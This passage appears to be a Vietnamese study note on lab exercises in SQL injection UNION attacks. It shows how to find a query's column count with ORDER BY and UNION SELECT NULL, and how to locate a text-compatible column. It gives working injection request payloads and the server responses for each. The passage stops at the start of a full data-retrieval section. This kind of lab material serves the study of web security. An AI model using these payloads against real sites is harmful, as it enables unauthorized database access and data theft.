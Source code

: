 Có 2 cách để xác định số lượng cột trong truy vấn gốc:

* ORDER BY: Tăng dần số cột (ORDER BY 1, ORDER BY 2...) cho đến khi lỗi → biết số cột.

* UNION SELECT NULL: Thử số NULL khác nhau, khi khớp số cột → payload chạy OK.

### Ví dụ
**Lab: SQL injection UNION attack, determining the number of columns returned by the query**
Cách 1: ORDER BY

```http
GET /filter?category=Accessories'ORDER BY 1--  //200 OK
GET /filter?category=Accessories'ORDER BY 2--  //200 OK
GET /filter?category=Accessories'ORDER BY 3--  //200 OK
GET /filter?category=Accessories'ORDER BY 4--  //500 Internal Server Error
```

Suy ra số lượng cột ở truy vấn gốc là `3`.

Cách 2: UNION SELECT NULL

```http
GET /filter?category=Accessories'UNION SELECT NULL--                 //500 Internal Server Error
GET /filter?category=Accessories'UNION SELECT NULL,NULL--            //500 Internal Server Error
GET /filter?category=Accessories'UNION SELECT NULL,NULL,NULL--       //200 OK
GET /filter?category=Accessories'UNION SELECT NULL,NULL,NULL,NULL--  //500 Internal Server Error
```

Suy ra số lượng cột ở truy vấn gốc là `3`.

### Cột nào trong truy vấn gốc có kiểu dữ liệu phù hợp để chứa dữ liệu từ truy vấn chèn thêm

Sau khi xác định được số cột trả về từ truy vấn gốc ta sẽ tiến hành chèn `'string'` vào từng cột (các cột khác để `NULL`) → nếu hiện `'string'` và không lỗi → cột đó chứa hoặc chấp nhận dữ liệu chuỗi, có thể dùng để lấy dữ liệu text.

### Ví dụ
**Lab: SQL injection UNION attack, finding a column containing text**

Sau khi tiến hành xác định số cột của truy vấn gốc ta sẽ biết được số cột gốc là `3`.

 ```http
 GET /filter?category=Accessories'UNION SELECT NULL,NULL,NULL--       //200 OK
Tiến hành chèn 'abc' vào các cột NULL.
GET /filter?category=Accessories'UNION SELECT 'abc',NULL,NULL--       //500 Internal Server Error
GET /filter?category=Accessories'UNION SELECT NULL,'abc',NULL--       //200 OK
GET /filter?category=Accessories'UNION SELECT NULL,NULL,'abc'--       //500 Internal Server Error
 ```

 Suy ra tại cột `2` chứa hoặc chấp nhận dữ liệu chuỗi, có thể dùng để lấy dữ liệu text.

 ## Thực hiện một cuộc tấn công SQLi đầy dủ với UNION
**Lab: SQL injection UNION attack, retrieving data from other tables**

* Xác định số cột trả về trong truy vấn gốc
